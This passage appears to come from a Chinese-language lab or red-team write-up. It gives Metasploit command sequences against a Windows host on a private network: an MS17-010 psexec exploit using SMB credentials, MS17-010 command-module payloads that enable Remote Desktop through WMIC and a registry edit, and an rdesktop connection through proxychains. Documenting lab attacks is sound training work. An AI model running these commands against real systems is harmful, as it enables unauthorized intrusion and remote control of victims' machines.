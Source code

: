 正向连接（未成功）：

```plain
利用 exploit/windows/smb/ms17_010_psexec 尝试正向连接

search ms17-010
use exploit/windows/smb/ms17_010_psexec
show options
set rhosts 192.168.52.141
set payload
set lhost 192.168.82.3
set lport 7777
set SMBuser srn7
set SMBpass P@ssword
exploit
```

开启 3389 端口：

```plain
search ms17-010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set COMMAND wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
exploit
```

上面这个没有开启成功，下面这个成功了

```plain
search ms17-010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run
```

远程连接：直接在 msf 里 rdesktop 192.168.52.141 或者另起终端 proxychains rdesktop 192.168.52.141 或者全局代理直接本机远程连接均可；

[![](assets/1701827767-eb33cb7119def0e32500d93c563b251b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202192348-435d3a44-9105-1.png)
